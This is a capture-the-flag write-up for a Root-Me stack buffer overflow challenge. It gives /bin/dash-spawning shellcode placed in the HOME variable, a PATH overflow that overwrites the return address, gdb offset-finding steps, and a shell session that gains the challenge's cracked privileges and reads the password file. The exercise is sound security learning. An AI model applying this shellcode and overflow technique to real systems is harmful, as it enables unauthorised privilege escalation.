 # rootme : ELF x86 - Stack buffer overflow basic 4

https://www.root-me.org/en/Challenges/App-System/ELF-x86-Stack-buffer-overflow-basic-4


Can make use of generic spawn /bin/dash shellcode and insert into start of env struct, the home array.  Overflow the path array into RET address.

    export HOME=$(python -c 'print "\xeb\x1d\x5b\x31\xd2\x89\xd9\x83\xc1\x04\x83\xc1\x05\x88\x11\x31\xc0\xb0\x0b\x31\xc9\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xde\xff\xff\xff\x2f\x62\x69\x6e\x2f\x64\x61\x73\x68\x41"')

    export PATH=$(/usr/bin/python -c 'print "\x41" * 160 + "\x3c\xf5\xff\xbf" + "\x70\xf7\xff\xbf"')


This exercise is fiddly due to environmental variables shifting stack offsets.  Place junk addresses into PATH to begin with and use gdb to find correct offsets.  Remember to remove the gdb additions to env.

    (gdb) unset env LINES
    (gdb) unset env COLUMNS


Address of home:

    (gdb) p/x $ebp-0x21c
    $1 = 0xbffff53c


Address of RET to main and env struct argument, string terminator will clear least significant byte of the argument causing havok.  Must pass two addresses to PATH, new shellcode address and original env arg address.

    (gdb) p/x ($1+0x180+0xa0)
    $2 = 0xbffff75c

    (gdb) x/2wx $2
    0xbffff75c:     0x08048679      0xbffff770


Satisfying:

    app-systeme-ch8@challenge02:/challenge/app-systeme/ch8$ ./ch8
    [+] Getting env...
    $ id
    uid=1108(app-systeme-ch8) gid=1108(app-systeme-ch8) euid=1208(app-systeme-ch8-cracked) groups=1208(app-systeme-ch8-cracked),100(users),1108(app-systeme-ch8)
    $ cat .passwd
    ...

